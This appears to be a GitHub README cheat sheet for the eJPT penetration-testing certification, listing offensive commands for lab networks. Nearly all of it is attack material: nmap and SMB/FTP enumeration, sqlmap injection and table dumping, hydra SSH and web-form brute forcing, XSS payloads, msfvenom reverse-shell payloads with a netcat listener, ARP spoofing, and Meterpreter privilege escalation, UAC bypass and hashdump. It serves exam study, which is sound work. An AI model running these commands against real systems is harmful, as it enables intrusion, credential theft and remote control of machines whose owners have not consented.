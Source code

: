 # eJPT-Cheatsheet-Tips
This is a Cheatsheet for eJPT exam + course.

## Nmap
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial\
nmap -A -p- -iL targets -oN nmap.aggressive\
nmap -p<port> --script=vuln -v <target-IP>

## fPing
fping -a -g 10.10.10.0/24 > targets 2>/dev/null

## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>\
eg.\
ip route add 172.16.50.0/24 via 10.13.37.1 dev tap0

## John
john --wordlist=/root/Tools/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

## dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

## Netcat
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 <port>

## SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L /usr/share/ncrack/minimal.usr -P /root/Tools/SecLists/Passwords/Leaked-Databases/rockyou-15.txt -f -V

*You will know which wordlists to use when the time comes*


## XSS
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10

## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate <pid>\
hashdump
  
## Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users



